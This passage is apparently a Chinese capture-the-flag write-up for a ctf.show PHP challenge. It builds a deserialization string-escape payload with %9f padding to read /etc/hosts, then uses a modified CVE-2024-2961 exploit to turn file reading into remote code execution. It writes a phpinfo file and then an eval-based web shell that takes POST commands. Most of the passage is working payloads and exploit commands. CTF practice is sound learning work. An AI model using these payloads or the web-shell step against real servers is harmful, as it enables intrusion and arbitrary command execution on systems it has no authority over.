

可以看到原先的序列化字符串被全部吞掉了，只剩下%9f了，那这时候我们传入一个序列化字符串呢的话就可以正常被反序列化

注意在逃逸的时候需要添加一个%9f以此来抵消[]的影响，所以要比逃逸字符串数多个%9f

生成逃逸的字符串exp

```php
<?php
class read_file{
    public $start;
    public $filename;
}

$a=new read_file();
$a->start='gxngxngxn';
$a->filename='/etc/hosts';

echo  str_repeat('%9f',strlen(serialize($a))+1).serialize($a);
//%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:10:"/etc/hosts";}
```

同时我们逃逸出的字符不能大于原来的字符数量，所以我们可以传参start来调整原字符的数量，以此逃逸出预期的字符

```
?start=gxngxng&read=%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:10:"/etc/hosts";}
```

这里我去掉了start中两个字符，本地测试结果就很容易能看出来了



然后页面成功触发任意文件读取，但是找不到flag

任意文件读取变为RCE，参考**CVE-2024-2961**，但是需要改一下poc



然后我们运行poc

```
python3 cnext-exploit.py http://a59136a6-1e10-42e8-b4d3-df12e510677c.challenge.ctf.show/ "echo '<?php phpinfo();?>' > shell.php"
```



访问shell.php发现文件存在且成功执行



那我们写个马子进去

```
python3 cnext-exploit.py http://a59136a6-1e10-42e8-b4d3-df12e510677c.challenge.ctf.show/ "echo '<?php @eval(\$_POST['cmd']);?>' > shell2.php"
```

注意这里需要对`$`进行转义


